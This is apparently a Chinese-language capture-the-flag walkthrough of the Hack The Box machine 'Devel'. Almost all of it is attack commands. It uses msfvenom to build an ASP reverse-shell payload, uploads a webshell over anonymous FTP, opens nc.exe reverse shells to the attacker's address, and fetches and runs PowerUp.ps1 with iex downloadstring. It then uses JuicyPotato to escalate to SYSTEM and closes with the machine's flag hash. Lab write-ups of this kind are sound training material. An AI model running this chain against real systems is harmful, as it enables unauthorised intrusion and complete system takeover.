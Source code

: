 # Devel

> victim: 10.10.10.5
>
> local: 10.10.14.19

## 扫描结果分析

可以看到开了80和21，简单一看就知道ftp对应的就是web服务的根目录

可以知道其语言为asp.net，系统是Windows

## 生成木马并上传

生成

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.19 LPORT=443 -f asp > myshell.asp
```

上传

```bash
ftp 10.10.10.5 #匿名用户名anonymous,密码为空

binary
put myshell.asp
```

## 获取Shell

本机使用msf监听

远程出现500错误，使用集成式木马好了

## 换用集成式木马

```bash
proxychains wget https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/asp/aspcmd.asp
ftp 10.10.10.5
# anonymous
binary
put aspcmd.asp
```

成功获取webshell，不得不说这个webshell界面不错，但是一用Powershell就卡死，气人

得到系统信息如下

```
Microsoft Windows 7 Enterprise
X86-based PC
```

## 获取nc shell

```bash
# ftp
binary
put nc.exe
```

```bash
# webshell
# 找到网站根目录 C:\inetpub\wwwroot
nc.exe 10.10.14.19 443 -e cmd.exe
```

成功获取

## 获取Powershell

```shell
# ftp
binary
put re.ps1
```

```bash
# local
nc -lvvp 4444
```

```shell
powershell -File ./re.ps1
# 被限制策略禁止了
powershell -ExecutionPolicy Bypass -File ./re.ps1
```

成功获取Powershell

## Privilege Escalation 

```bash
proxychains4 wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1
```

```shell
python3 -m http.server
```

```powershell
iex(new-object net.webclient).downloadstring( "http://10.10.14.19:8000/PowerUp.ps1")
```

```
Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 1552
ProcessId   : 2608
Name        : 2608
Check       : Process Token Privileges
```

完全同PWK 10.11.1.13 Juicy Potato提权，但是本题是x86

先从官网下载代码，编译到x86架构

```
https://github.com/ohpe/juicy-potato
```

修改编译模式到x86架构，改为exe应用程序，子系统选择console程序而不是窗口程序

```bash
# ftp
binary
put JuicyPotato.exe
```
t.bat
```shell
whoami > C:\inetpub\wwwroot\res.txt
C:\inetpub\wwwroot\nc.exe 10.10.14.19 6666 -e cmd.exe
```

```shell
JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/k C:\inetpub\wwwroot\t.bat" -l 1337
```

成功获取到SYSTEM Shell

```
e621a0b5041708797c4fc4728bc72b4b
```

